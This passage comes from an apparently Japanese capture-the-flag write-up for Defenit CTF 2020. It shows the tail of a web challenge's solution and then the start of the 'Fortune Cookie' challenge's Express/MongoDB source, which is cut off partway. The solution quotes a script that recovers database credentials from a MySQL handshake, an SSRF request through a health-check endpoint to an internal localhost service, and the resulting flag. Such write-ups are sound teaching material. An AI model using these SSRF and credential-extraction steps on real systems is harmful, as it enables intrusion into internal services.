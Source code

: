 数値で返ってきてしまいました。ブラウザの DevTools の Console で雑に文字列に直してくれるスクリプトを実行します。

```
>document.body.innerHTML.match(/\d+/g).map(c => parseInt(c, 10)).filter(x => 0x20 <= x && x < 0x7f).map(c => String.fromCharCode(c)).join('').replace(/!/g, '')
<"J5.7.30#CYMCq%-"r%E`*VbVmysql_native_passwordBdefdefenit_ctf_2020secretsecretki11c0d3ki11c0d3P#"k1ll_th3_ALL_b4d_aR4n9_ransomeware"
```

`/He4ltH_chEck_c2_cur1?url=http://localhost:7777/k1ll_r4ns0mw4r3?ki11c0d3=k1ll_th3_ALL_b4d_aR4n9_ransomeware` にアクセスするとフラグが得られました。

```
Defenit{y0u_pr0t3ct3d_the_w0r1d_by_h@cK_th3_C2!!}
```

## [Web 507] Fortune Cookie (15 solves)
> Here's a test of luck!  
> What's your fortune today?
> 
> Author: @posix
> 
> 添付ファイル: fortune-cookie.tar.gz

`fortune-cookie.tar.gz` を展開すると、以下のようなソースコードが出てきました。

```javascript
const express = require('express');
const cookieParser = require('cookie-parser');
const { MongoClient, ObjectID } = require('mongodb');
const { FLAG, MONGO_URL } = require('./config');

const app = express();

app.set('view engine', 'html');
app.engine('html', require('ejs').renderFile);

app.use(cookieParser('🐈' + '🐇'));
app.use(express.urlencoded());


app.get('/', (req, res) => {
    res.render('index', { session: req.signedCookies.user });
});

app.get('/login', (req, res) => {
    res.render('login');
});

app.post('/login', (req, res) => {
    let { username } = req.body;

    res.cookie('user', username, { signed: true });
    res.redirect('/');
});

app.use((req, res, next) => {
    if (!req.signedCookies.user) {
        res.redirect('/login');
    } else {
        next();
    }
});

app.get('/logout', (req, res) => {
    res.clearCookie('user');
```